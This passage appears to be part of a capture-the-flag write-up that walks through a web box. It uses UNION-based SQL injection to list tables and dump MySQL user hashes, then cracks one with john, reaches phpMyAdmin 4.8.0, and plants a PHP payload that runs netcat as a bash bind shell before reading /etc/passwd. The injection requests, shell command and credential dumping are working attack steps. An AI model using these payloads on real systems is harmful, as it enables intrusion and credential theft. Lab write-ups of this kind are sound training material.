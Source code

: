 We can now start to look at the tables in our database:

```
GET /room.php?cod=0 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),1,1,1,1,1 FROM information_schema.tables; #
```

This gives us `room,ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS...`. So it looks like our database is just the one table and then the default mysql stuff.

What might be more useful though, is some credentials. We can access the `mysql.users` table just like any other, and dump the first username and password hash:

```
GET /room.php?cod=0 UNION SELECT 1,User,Password,1,1,1,1 FROM mysql.user; #
```

All this could've been done much more easily using `sqlmap`, but it's good to do it yourself sometimes. From this, we get something we can throw into john, or any other tool:

```
DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

```
 $ john passwd
	Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 SSE2 4x])
	Proceeding with single, rules:Single
	Press 'q' or Ctrl-C to abort, almost any other key for status
	Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
	
	imissyou         (DBadmin)
	
	1g 0:00:00:00 DONE 2/3 (2019-09-14 20:50) 1.960g/s 6617p/s 6617c/s 6617C/s twilight..ashlee
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed
```

(trimmed)

For context, the hash is in a format particular to MySql > 4.1, with the * being used to specify that it's a newer version.

Now what? Well, whether you run dirb on the web root or just guess you should quickly find the phpMyAdmin installation which we can now access.

Now we need to get actual code execution. From the phpMyAdmin root, you can find a `README.md` file which states that it's running version 4.8.0. We can easily search for exploits and find [this](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/) very well written guide. We could make a metasploit payload, and in most real-world situations we'd need to, but we can also try a much simpler approach:

```
select "<?php echo exec('nc -lvp 4444 -e /bin/bash'); ?>"
```

This will create a bash shell bound to port 4444. Run it and sure enough, we can connect.

```
 $ whoami
	www-data
 $ cat /etc/passwd
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	pepper:x:1000:1000:,,,:/home/pepper:/bin/bash
	(trimmed)
```
